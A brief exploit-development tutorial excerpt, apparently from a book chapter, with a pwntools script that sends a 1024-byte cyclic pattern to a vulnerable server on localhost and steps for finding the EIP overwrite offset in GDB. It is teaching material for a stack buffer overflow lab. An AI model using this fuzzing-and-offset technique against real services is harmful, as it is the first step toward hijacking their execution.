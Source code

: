 1. Example python code for determining offset:
```python
#!/usr/bin/env python3
#ch10_6_exploit.py
from pwn import *
context(bits=32, arch='i386')
# Connect to vulnerable ch10_6 server
p = remote('localhost', 5555)
# Send a 1024 bytes long cyclic pattern
payload = cyclic(1024) # Cyclic Pattern
p.sendlineafter(b"Username: ", payload) # Send payload
p.interactive()
```
2. Based on the EIP value in the crash in GDB, run: `cyclic -l 0xYOUR_EIP_VALUE`
	- This will give you the offset
	